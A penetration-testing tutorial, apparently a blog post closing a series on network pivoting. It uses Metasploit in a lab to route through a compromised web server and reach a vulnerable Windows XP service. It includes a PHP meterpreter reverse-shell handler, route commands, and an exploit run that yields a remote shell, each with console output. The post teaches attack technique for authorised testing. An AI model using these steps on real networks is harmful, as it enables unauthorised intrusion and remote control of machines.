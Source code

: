 
In this article, we'll look at pivoting using [Metasploit](http://www.metasploit.com/). If you have the option to use Metasploit, you'll find that it makes pivoting much easier. Metasploit can be installed on Linux, Windows, and Mac OS X, which makes it a pretty versatile tool. The number of modules included in the framework grows continuously, and its low learning curve makes it popular among hackers. 

<!--more-->

### The scenario

There are two networks, 192.168.81.0/24 and 192.168.63.0/24. Our attacking machine, and a web server that has access to the 192.168.63.0/24 network are located in the 192.168.81.0/24 network. Our target, a Windows XP SP2 machine, is located in the 192.168.63.0/24. Our attacking machine does not have direct access to it, but the web server does.

![](/images/2012-10-22/01.jpg)

We've already compromised the web server and obtained some form of shell access to it, such as a reverse shell for instance. Our goal is to use the web server as our pivot and obtain a remote shell on the Windows XP machine. 

### The exploit

The Windows XP machine runs a vulnerable service called Server-Strcpy on port 10000. Server-Strcpy is part of the [SecurityTube Exploit Research Megaprimer](http://www.securitytube.net/video/1399) series, and can be downloaded at [http://code.securitytube.net/Server-Strcpy.exe](http://code.securitytube.net/Server-Strcpy.exe). I ported the python exploit we used in the previous articles into a Metasploit module which can be downloaded [here](http://techorganic.com/software/serverstrcpy.rb). It should be saved in ~/.msf4/modules/exploits/windows/misc/. 

### The attack

We begin by gaining access to the web server with Metasploit. We've created a PHP reverse meterpreter shell payload using php/meterpreter_reverse_tcp. This was copied to the web server and will connect back to our machine and give us a meterpreter shell when we load it. Let's start up our handler and gain our meterpreter shell: 

```
# msfcli exploit/multi/handler PAYLOAD=php/meterpreter_reverse_tcp LHOST=192.168.81.125 LPORT=9999 E
[*] Please wait while we load the module tree...
 
Call trans opt: received. 2-19-98 13:24:18 REC:Loc
 
     Trace program: running
 
           wake up, Neo...
        the matrix has you
      follow the white rabbit.
 
          knock, knock, Neo.
 
                        (`.         ,-,
                        ` `.    ,;' /
                         `.  ,'/ .'
                          `. X /.'
                .-;--''--.._` ` (
              .'            /   `
             ,           ` '   Q '
             ,         ,   `._    \
          ,.|         '     `-.;_'
          :  . `  ;    `  ` --,.._;
           ' `    ,   )   .'
              `._ ,  '   /_
                 ; ,''-,;' ``-
                  ``-..__``--`
 
 
       =[ metasploit v4.5.0-dev [core:4.5 api:1.0]
+ -- --=[ 961 exploits - 508 auxiliary - 153 post
+ -- --=[ 257 payloads - 28 encoders - 8 nops
 
PAYLOAD => php/meterpreter_reverse_tcp
LHOST => 192.168.81.125
LPORT => 9999
[*] Started reverse handler on 192.168.81.125:9999 
[*] Starting the payload handler...
[*] Meterpreter session 1 opened (192.168.81.125:9999 -> 192.168.81.181:64796) at 2012-10-05 16:26:12 -0400
 
meterpreter >
```

We've obtained a meterpreter shell on the web server. We'll need to background meterpreter so we can setup our pivot. To do this, we can use Metasploit's route command to associate the new route to our meterpreter session: 

```
meterpreter > background
[*] Backgrounding session 1...
msf  exploit(handler) > route add 192.168.63.0 255.255.255.0 1
[*] Route added
msf  exploit(handler) > route print
 
Active Routing Table
====================
 
   Subnet             Netmask            Gateway
   ------             -------            -------
   192.168.63.0       255.255.255.0      Session 1
 
msf  exploit(handler) >
```

Our pivot setup is now complete. Let's test it by exploiting Server-Strcpy using the serverstrcpy exploit module. The target port is already set to port 1000 by default, so all we have to do is specify the target IP address and the payload. For this example, we'll use the windows/shell_bind_tcp payload: 

```
msf  exploit(handler) > use exploit/windows/misc/serverstrcpy 
msf  exploit(serverstrcpy) > set RHOST 192.168.63.142
RHOST => 192.168.63.142
msf  exploit(serverstrcpy) > set PAYLOAD windows/shell_bind_tcp 
PAYLOAD => windows/shell_bind_tcp
msf  exploit(serverstrcpy) > exploit 
 
[*] Started bind handler
[*] Trying target Windows XP Pro SP2 English...
 
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.
 
C:\Documents and Settings\Administrator\Desktop>        
 
C:\Documents and Settings\Administrator\Desktop>ipconfig
ipconfig
 
Windows IP Configuration
 
 
Ethernet adapter Local Area Connection:
 
        Connection-specific DNS Suffix  . : localdomain
        IP Address. . . . . . . . . . . . : 192.168.63.142
        Subnet Mask . . . . . . . . . . . : 255.255.255.0
        Default Gateway . . . . . . . . . : 192.168.63.2
 
C:\Documents and Settings\Administrator\Desktop>
```

We've successfully pivoted our attack through the web server and obtained a remote shell on the target. This was an extremely easy setup, basically just using the route command within Metasploit to setup the pivot. 

This article concludes the series on introduction to pivoting. I started this series as a way to showcase different pivoting techniques that I hoped would be helpful to beginners. If the rules of engagement allow it, pivoting will allow you to show your clients just how serious a security breach can become if an attacker can tunnel deep into the network. 

